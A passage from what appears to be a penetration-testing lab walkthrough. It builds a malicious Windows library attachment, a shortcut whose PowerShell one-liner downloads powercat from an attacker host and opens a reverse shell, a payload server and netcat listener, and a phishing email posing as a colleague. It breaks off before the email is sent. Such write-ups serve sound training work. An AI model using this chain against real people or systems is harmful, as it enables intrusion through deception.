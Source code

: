 Creating our malicious attachment:

{% code title="config.Library-ms" overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}

Now let's make a shortcut to execute a reverse shell:

{% code title="install.lnk" overflow="wrap" %}
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
{% endcode %}

Copying powercat to our current directory, hosting it via python as well as starting a netcat listener:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000 &
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

kali@kali:~/beyond$ nc -nvlp 4444 & 
listening on [any] 4444 ...
```
{% endcode %}

Using _swaks_ to send the email:

{% code overflow="wrap" %}
```bash
# Creating the body in body.txt
kali@kali:~/beyond$ cat body.txt
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John

```